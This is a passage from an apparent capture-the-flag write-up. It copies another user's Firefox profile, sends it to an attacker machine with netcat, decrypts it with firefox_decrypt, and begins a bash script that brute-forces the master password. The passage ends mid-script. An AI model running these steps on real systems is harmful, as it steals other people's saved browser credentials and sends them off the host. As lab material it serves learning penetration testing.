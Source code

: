   ```sh
  # shows that we have a .mozilla directory
  ```

* The other user's directory at /home/carlJ has a '.mozilla' directory - we can try to get any data from this using the [firefox decrypt tool](https://github.com/unode/firefox_decrypt):

  ```sh
  ls -la /home/carlJ

  ls -la /home/carlJ/.mozilla

  ls -la /home/carlJ/.mozilla/firefox
  # we can transfer this file to attacker machine
  # first compress it

  zip -r /home/tommyV/mozilla.zip /home/carlJ/.mozilla/

  # in attacker machine
  nc -nvlp 4444 > mozilla.zip

  # in victim ssh
  which nc

  /bin/nc 10.14.60.75 4444 -w 3 < mozilla.zip

  # in attacker machine
  # decompress the zip file
  unzip -q mozilla.zip

  # run the python script for firefox decrypt
  # we need to direct it to this .mozilla folder
  python ~/Tools/firefox_decrypt.py ~/chronicle/home/carlJ/.mozilla/firefox
  # here, we need a master password
  ```

* While using ```firefox_decrypt.py```, we get the prompt to enter master password for only one profile - "0ryxwn4c.default-release"

* We tried the password for 'tommy' here, but it does not work. We can attempt brute-forcing this using a script (writing Bash script instead of Python for a change of habit):

  ```sh
  #!/bin/bash

  function usage {
          echo "[+] Firefox decrypt bruteforce script"
          echo "[+] Usage: $0 /path/to/wordlist"
  }

  if [ -z "${1}" ]; then
          usage
          exit 1
  elif [ -f "${1}" ]; then
          echo "[+] Starting brute force..."
  else echo "{$1} is not valid!"
          exit 2
  fi

  # to avoid newline issues from wordlist
  while IFS='' read -r password || [ -n "$password" ]; do
          # -e is to ensure newline character is interpreted in echo
          # &>/dev/null redirects all stdout (output of command) to /dev/null
          # if the password input is correct, we print the correct password
          if echo -e "2\n$password" | python /home/sv/Tools/firefox_decrypt.py /home/sv/chronicle/home/carlJ/.mozilla/firefox &>/dev/null; then
                  echo "Master password: $password"
  ```